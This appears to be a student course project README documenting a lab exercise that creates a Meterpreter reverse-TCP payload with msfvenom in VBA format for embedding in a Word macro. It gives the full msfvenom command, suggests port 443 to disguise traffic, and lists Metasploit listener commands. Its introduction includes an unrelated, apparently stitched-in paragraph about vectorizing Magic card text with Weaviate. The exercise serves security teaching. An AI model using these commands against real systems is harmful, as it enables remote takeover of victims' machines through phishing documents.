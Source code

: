 # IT 359 Project
This project demonstrates how a reverse shell payload can be created using msfvenom and embedded into a Microsoft Word macro as a proof-of-concept for educational and defensive security purposes. The objective is to simulate a common attack technique used by threat actors to gain unauthorized access to a target system, with the ultimate goal of understanding how such threats operate, how to identify them, and how to effectively defend against them.   

By following the steps outlined in this project, readers will gain insight into:  
  
How attackers craft and deliver malicious payloads using social engineering.  
How Microsoft Office macros can be exploited for code execution.  
Techniques for detecting and mitigating macro-based malware threats in enterprise environments.   
Data (like text from Magic cards) is transformed into these vectors using a process involving tokenization (splitting text into smaller units) and embedding (converting tokens into numerical representations using pre-trained models)    
When you query, the same vectorization process is applied to your query, and the resulting query vector is compared to the vectors in the database to find the most similar ones.      
Technologies used will include Weaviate(built in AI and machine learning integration), OpenAI, python, node.js and next.js    

# Day One: Topic 
After adding Ben to the group a little later into the semester, I opened up the Idea to doing a project that was little more realistic for our group to complete. I really just used AI and the project prompt to get some suggestions. Ultimately went with the subject explained above. Also used AI to create an outline of each members responsibilities by giving it our topic, timeline and number of memebers.
- Looking back, it was great for a start, but we should have revised it to be a little more compatible with our group.  

# MSFVenom Payload  
AI suggested using MSFVenom to create the payload and after looking into it, I realized that it was implemented in metasploite which we have experience with and acess to on our proxmox VMs. 
This was the main website I used to research the flags and how to use them(reading the instruction in the terminal is a bit of a headache for me) https://www.offsec.com/metasploit-unleashed/msfvenom/  
  
### Ultimately the command I came up with was msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f vba.  
#### -p
- the flag to start creating a payload
##### "windows" to target a windows machine(any of the promox machines in our case)  
#### "meterpreter" is the interactive shell component
#### "reverse_tcp" makes the victim reach out to our attacking machine
#### LHOST will be our attacking machines IP(kali linux proxmox vm)
#### LPORT will be the port we have our listener setup on
- Can use 4444 which is the metasploit default
- Another option is 443 if we want to be sneaky and make it look like HTTPS traffic  
#### -f VBA
- f = format of the output
- vba = visual basic for applications format

# Setting up the Listener  
### Really simple setup on the kali VM  
- Ths provides background knowledge on msfconsole commands https://www.offsec.com/metasploit-unleashed/msfconsole-commands/

### In your terminal run each command
#### msfconsole
#### use exploit/multihandler
#### set payload windows/meterpreter/reverse_tcp  
#### set LHOST our kali IP
#### set Lport(same port as in the payload)  
#### run


